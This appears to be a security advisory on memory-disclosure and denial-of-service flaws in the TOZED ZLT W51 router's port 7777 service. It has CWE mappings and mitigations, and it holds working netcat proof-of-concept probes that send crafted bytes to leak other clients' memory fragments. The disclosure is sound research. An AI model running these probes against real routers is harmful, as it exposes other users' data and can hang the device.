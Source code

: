 # TOZED ZLT W51 Router Security Vulnerabilities

## 1. Basic Information

| Field | Value |
|---|---|
| **Vulnerability Type** | Information Disclosure, Memory Corruption , Denial of Service |
| **Affected Product** | TOZED ZLT W51 Router |
| **Affected Version** | Firmware up to 1.4.2 |

## 2. Executive Summary

Critical security vulnerabilities exist in the proprietary service (TCP port 7777) of TOZED ZLT W51 routers:

- **Cross-Connection Memory Disclosure**: Memory fragments from previous connections leak to new clients
- **Protocol State Confusion**: Improper state handling exposes additional memory contents
- **Denial of Service**: Extended exploitation causes service hang
  
<p align="center">
<img width="905" alt="{C784B12A-B9DA-4868-93B8-49C611D131B9}" src="https://github.com/user-attachments/assets/5870ca4f-17bd-429b-8d6c-826d4d11b254" />
</p>

## 3. Technical Details

### 3.1. Cross-Connection Memory Disclosure

When a client disconnects, server-side buffers aren't properly sanitized. Subsequent connections receive fragments of previous clients' data.

**Leak Mechanism:**
1. Attacker sends specially crafted version bytes:
   ```
   \x05\xff\x00
   \x05\x06\x00\x01... + padding until the entire buffer is leaked.
   ```
2. By varying padding bytes, attacker shifts the "leak window" through memory.

### 3.2. Protocol State Confusion Vulnerability

The router improperly handles protocol state transitions. Sending different command sequences in a single connection triggers confusion, causing:
- Memory leaks between protocol transitions
- Concatenated responses with mixed protocol headers
- Additional sensitive data exposure

### 3.3. Denial of Service Impact

An isolated service hang requiring device restart was also observed during extended memory leak exploitation, pointing to potential underlying memory corruption, although this specific crash was not consistently replicated.

### 4. Cross-Connection Memory Leak Validation

Use the following commands to confirm and quantify the buffer-residue leakage. Adjust the padding length to slide the "leak window" deeper into the stale memory region.

```bash
# Initial leak probe: triggers a small disclosure window
echo -e "\x05\xff\x00" | nc -N -w 1 192.168.0.1 7777 | xxd -g 1
```

```bash
# Extended leak probe: append N null bytes to shift the leak offset
echo -e "\x05\x06\x00\x01\x00\x00\x00\x00\x00" | nc -N -w 1 192.168.0.1 7777 | xxd -g 1
```

- **`-N`**: immediately close the write side after EOF  
- **`-w1`**: 1 second timeout to capture the server's response  
- **`xxd -g1`**: hexdump grouped by single bytes for precise inspection  

Adjust the number of trailing null bytes `\x00` to any desired padding length to iterate through successive buffer offsets.  

## 4.1. Proof of Concept

A video demonstration of the Cross-Connection Memory Disclosure vulnerability is available at:

https://github.com/user-attachments/assets/83561d25-8497-4051-bc54-301b3c2fb3f4

### 4.2 Protocol State Confusion Testing Command
```bash
(echo -e "\x05\x01\x00"; sleep 0.5; echo -e "\x04\x01\x00\x50\x08\x08\x08\x08") | nc -N -w 2 192.168.0.1 7777 | xxd -g 1
```

**Expected Results:** Response contains mixed protocol states with memory fragments from previous connections embedded between them.

![image](https://github.com/user-attachments/assets/d97b61dc-ec90-4a6d-89fa-625f0ba2b138)

Looping this for a while we start to see more garbage leaked:

![image](https://github.com/user-attachments/assets/0c29ff3c-bddc-4352-9cdf-a8b0503982fb)

An unauthenticated attacker can exploit these vulnerabilities without any credentials or prior access. In this testing exploitation occurs from the same network, the vulnerability can be exploited remotely across the internet if port 7777 is exposed through firewall rules or port forwarding configurations which will depend on how the ISP has setup the router. This allows attackers to extract sensitive data fragments and potentially disrupt service availability without requiring any authentication whatsoever.

## 5. CWE Classifications

| CWE ID | Name | Description |
|---|---|---|
| **CWE-244** | Improper Clearing of Heap Memory Before Release | Memory buffers are not cleared between connections |
| **CWE-200** | Exposure of Sensitive Information to an Unauthorized Actor | Previous connection data leaks to new clients |

## 6. Mitigations

- Disable service on TCP port 7777 if not required (this is not possible on user end on some ISP routers)
- Implement network access controls to restrict port access
- Monitor for exploitation attempts

## 7. Timeline

**Discovery:** 2025-04-10

**CNA Report Date:** 2025-05-01

## 8. Credits

Discovered and reported by Mohamed Maatallah
